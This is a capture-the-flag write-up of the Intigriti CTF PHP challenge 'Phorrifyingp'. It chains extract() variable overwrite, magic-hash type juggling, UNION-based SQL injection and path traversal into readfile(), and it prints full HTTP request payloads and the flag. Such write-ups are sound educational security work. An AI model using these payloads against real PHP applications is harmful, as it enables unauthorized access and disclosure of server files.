 ```yaml
---
layout: post
title: Intigriti CTF — Phorrifyingp
author: Cillian
tags: [ctf, web]
---
```


In this post I'll discuss the first challenge our team solved as part of the Intigriti CTF. This was a php web challenge where we were given the source and asked to read the contents of the file to retrieve a flag.

<!-- read more -->

## Initial Assessment
The source code for the challenge can be seen below:

    <?php  
	    /*  
	    <flag> ➡➡➡ ⛳🏁 ⬅⬅⬅ <flag>  
	    */  
	    if ($_SERVER['REQUEST_METHOD'] == 'POST'){  
		    extract($_POST);  
	      
		    if (isset($_POST['password']) && md5($_POST['password']) == 'put hash here!'){  
			    $loggedin = true;  
		    }  
	      
		    if (md5($_SERVER['REMOTE_ADDR']) != '92d3fd4057d07f38474331ab231e1f0d'){  
		    header('Location: ' . $_SERVER['REQUEST_URI']);  
		    }  
		      
		    if (isset($loggedin) && $loggedin){  
			    echo 'One step closer 😎<br>';  
		      
			    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action']){  
				    echo 'Really? 😅<br>';  
				      
				    $db = new SQLite3('database.db');  
				    $sql_where = Array('1=0');  
				      
				    foreach ($_POST as $key => $data) {  
					    $sql_where[] = $db->escapeString($key) . "='" . $db->escapeString($data) . "'";  
				    }  
				      
				    $result = $db->querySingle('SELECT login FROM users WHERE ' . implode(' AND ', $sql_where));  
				      
				    if ($result == 'admin'){  
					    echo 'Last step 🤣<br>';  
				      
					    readfile(file_get_contents('php://input'));  
					}  
			    }  
		    }  
	    }  
    ?> 

We can see that this challenge will require us to bypass a number of conditional statements in order to execute the final readfile() function, where we will then need to modify our payload so that we can read a file.

## Step 1: We're Logged In!

    if (isset($loggedin) && $loggedin)

The first important conditional statement is checking if the $loggedin variable is true. We notice a suspicious usage of the extract() function above this. This function allows variables to be extracted from arrays. It's being run on $_POST which is our POST input (user/attacker controlled). This will allow us to not only declare variable, but also to assign values to them using POST data.

We can simply pass a loggedin parameter with a value of true.

> POST / HTTP/1.1 Host: phorrifyingp.ctf.intigriti.io Content-Type:
> application/x-www-form-urlencoded Content-Length: 32
> 
> loggedin=true

Once sent, we see the confirmation on the page:

> One step closer 😎

## Step 2: It's Magic!

    if (isset($_GET['action']) && md5($_GET['action']) == $_GET['action'])

The next conditional statement is checking for a GET parameter named "action". This parameter must satisfy the condition that its value is equal to its md5 value.
  
This seems very unlikely. In fact, it takes a little bit of understanding about php [magic hashes](https://www.whitehatsec.com/blog/magic-hashes/) to understand how this condition could be satisfied.

In short, the use of "=\=" allows for comparison of different object types. If we wanted to compare the literal value, we'd use "\=\=\=". If we enter a String with a value such as "0e1", this will effectively equal 0 to the power of 1 (which is 0). In fact, 0 to the power of any number will always result in 0.

Using this logic, we simply need an input beginning with 0e and followed by a series of numbers which results in a md5 hash which also begins with 0e and is followed by a series of numbers.

Once such input is "0e215962017". The md5 value of which is "0e291242476940776845150308577824".

Placing this as a GET parameter, we will get one step closer.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 13
    
    loggedin=true

We get the confirmation:

> Really? 😅

## Step 3: State Of The Union

    if ($result == 'admin')

The last conditional statement checks if $result is equal to 'admin'. This value comes from a SQL statement. Each of the parameters we pass in our POST data will become a part of this query. They are joined with the 'AND' condition. The clause array is initially populated with "1=0" which can never be true.

Firstly, we encounter errors about "no such column loggedin", which hints that we'll need to find a way to get rid of this part of the query, we can do so by commenting it out.

    1--=aaaa&loggedin=true

Next, we notice that the current state of the query will never be true due to the "1=0" condition. This hints towards us using a UNION query to separately select the "admin" entry. We inject this into the parameter name.

   

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    
    1/**/UNION/**/SELECT/**/"admin"--=aaaa&loggedin=true

We receive the confirmation that we have bypassed this check:

> Last step 🤣

## Step 4: Traversing The Plane
   

> Warning</b>: 
> readfile(1/\*\*/UNION/\*\*/SELECT/**/&quot;admin&quot;--=aaaa&amp;loggedin=true):
> failed to open stream: No such file or directory in
> /var/www/html/index.php

As we can see from the error above, the entire POST data payload is being sent into the readfile() function.

We can enter invalid directories, as long as we traverse back out of them. Using "\.\." we are in effect removing it from the path **before** it is ever searched for.

    POST /?action=0e215962017 HTTP/2
    Host: phorrifyingp.ctf.intigriti.io
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
    
    1/**/UNION/**/SELECT/**/"admin"--=a&loggedin=true&test=/../../../../../../../../../../var/www/html/index.php

And we get the flag:

> 1337UP{PHP_SCARES_ME_IT_HAUNTS_ME_WHEN_I_SLEEP_ALL_I_CAN_SEE_IS_PHP_PLEASE_SOMEONE_HELP_ME}

## Final Notes
Thanks to all members of "Team Ireland Without RE" with special thanks to [@0daystolive](https://twitter.com/0daystolive).
